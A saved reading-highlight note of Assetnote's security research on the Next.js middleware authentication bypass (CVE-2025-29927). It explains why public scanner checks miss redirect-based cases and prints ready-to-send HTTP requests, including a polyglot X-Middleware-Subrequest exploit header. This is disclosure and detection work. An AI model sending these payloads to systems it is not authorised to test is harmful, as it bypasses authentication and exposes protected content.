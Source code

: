 ```yaml
---
author: Assetnote Research
aliases:
  - "Doing the Due Diligence: Analyzing the Next.js Middleware Bypass"
tags:
  - readwise/articles
  - nextjs
url: https://www.assetnote.io/resources/research/doing-the-due-diligence-analyzing-the-next-js-middleware-bypass-cve-2025-29927?__readwiseLocation=
date: 2025-04-01
summary: A critical vulnerability (CVE-2025-29927) in Next.js allows attackers to bypass authentication through middleware, causing concern in the developer community. Public checks for this vulnerability are often inaccurate and miss many exploitable cases, especially those that use redirects instead of rewrites. Assetnote recommends upgrading to the latest Next.js versions to protect against this issue and has developed a more effective scanning methodology to identify vulnerabilities.
---
```

# Doing the Due Diligence: Analyzing the Next.js Middleware Bypass

![rw-book-cover](https://cdn.prod.website-files.com/6422e507d5004f85d107063a/649c2686dd142039d6d5ea8e_Frame%201428.png)


At Assetnote, our scanning methodology and techniques are developed to be as accurate as possible. We prioritize identifying all exploitable instances across our customers' attack surfaces. To do this, we often have to go beyond public resources to understand intelligent and well-thought-out methodologies. [](https://read.readwise.io/read/01jq64721437qe4wjjs74b2et1)

## What's Wrong With The Publicly Disclosed Checks?
When considering how authentication mechanisms are implemented inside middleware, we can commonly expect developers to redirect or rewrite users to return to the authentication flow or login page. [](https://read.readwise.io/read/01jq647ecyenv6txhcem83chs1)


All [publicly disclosed checks](https://github.com/projectdiscovery/nuclei-templates/pull/11799/files) we were able to find that discover this vulnerability rely on the application presenting some rewrite logic in order to determine whether or not middleware could be present, before attempting to exploit this vulnerability.
The logic for the checks we have seen in the wild rely on the presence of `x-middleware-rewrite`, `x-middleware-next`, `x-middleware-redirect` inside the response headers. From our testing with various Next.js versions up to 14.2.24, the `x-middleware-rewrite` does not exist on a redirect, and `x-middleware-next` and `x-middleware-redirect` headers are not present on a redirect from the middleware layer. [^1]

This leaves a huge gap for applications that utilize redirects instead of rewrites inside their middleware layer. [](https://read.readwise.io/read/01jq647sjtd9sgee0v1mcw6xv2)



## Building a More Reliable Check
To understand whether or not the middleware layer is leading to an HTTP redirect, our team audited the Next.js code and found that there was a straightforward, yet effective way to leak an internal header inside a redirect response from the middleware layer: [](https://read.readwise.io/read/01jq649aemnpzcqt39dt3nzr6m)

By sending the header `x-nextjs-data: 1` in our HTTP request, it was possible to coerce Next.js to respond with an internal header `x-nextjs-redirect`, which all publicly disclosed checks do not account for. The `x-middleware-redirect` header can often get swallowed, leading to publicly disclosed checks missing many instances of this vulnerability. [](https://read.readwise.io/read/01jq64a12m1anj8f4842evdx64)

We can greatly simplify the exploitation of this issue by using a polyglot that avoids having to send multiple requests. We were able to achieve this with the following HTTP header, used to check for the presence of an authentication bypass:

`X-Middleware-Subrequest: src/middleware:nowaf:src/middleware:src/middleware:src/middleware:src/middleware:middleware:middleware:nowaf:middleware:middleware:middleware:pages/_middleware`

This lets us effectively cover the various potential cases without having to send multiple requests. [](https://read.readwise.io/read/01jq64c74g378eextg37y78bhb)

If you want to distil all the knowledge we present into this blog post into a simple scanning methodology, you can use the following HTTP request for your initial request:
```http
GET / HTTP/2
Host: target
Accept-Encoding: gzip, deflate, br
X-Nextjs-Data: 1
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
If the HTTP response is a 307, and contains any non null values for `x-nextjs-redirect`, `x-middleware-rewrite` or `x-nextjs-rewrite`, like so:
```http
HTTP/2 307 Temporary Redirect
Date: Mon, 24 Mar 2025 05:07:41 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
X-Nextjs-Redirect: /login
X-Envoy-Upstream-Service-Time: 10
```

You can then attempt the exploit payload (with our improved polyglot): [](https://read.readwise.io/read/01jq64e8vp9qw3nc7kkp9s55ap)
```http
GET / HTTP/2
Host: target
Accept-Encoding: gzip, deflate, br
X-Nextjs-Data: 1
X-Middleware-Subrequest: src/middleware:nowaf:src/middleware:src/middleware:src/middleware:src/middleware:middleware:middleware:nowaf:middleware:middleware:middleware:pages/_middleware
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Cache-Control: max-age=0 
```

[^1]: [zhero_web_security - Next.js and the Corrupt Middleware The Authorizing Artifact](zhero_web_security%20-%20Next.js%20and%20the%20Corrupt%20Middleware%20The%20Authorizing%20Artifact.md)

